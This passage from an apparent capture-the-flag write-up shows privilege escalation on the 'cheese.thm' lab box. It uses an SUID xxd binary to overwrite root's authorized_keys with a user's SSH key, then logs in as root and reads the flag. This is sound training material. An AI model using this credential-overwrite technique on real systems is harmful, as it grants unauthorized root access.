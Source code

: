 After 3 seconds, when we check the `/opt` directory, we should find the `xxd` binary with the SUID bit set:

```sh
ls -lah /opt
```

![8127e79df748ccdbe6c302f8d36902b8.png](/resources/1619b7ca7908443bb4e6977352d04b2e.png)

Referring to the [GTFObins](https://gtfobins.github.io/gtfobins/xxd/) website, we will find a way to write to files using the `xxd` binary and since it has the SUID bit, we will be able to write to any file on the system.

We will `cat` the same SSH key we generated earlier for the user `comte` and write over the SSH key for the user `root`:

```sh
cat /home/comte/.ssh/authorized_keys | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```

On the attacking machine, we can connect via SSH with the same key we generated earlier:

```sh
ssh -i id_rsa root@cheese.thm
```

![667979a08964dd6180084ade68c10543.png](/resources/04604008bb194c4e83d87eb2de33f6b7.png)

We can find the root flag in `/root/root.txt`:

```sh
ls -lah
cat root.txt
```

![8f18ff555a858655238b06202e8f8605.png](/resources/0f0bec38277b475b88c0d7101176393d.png)
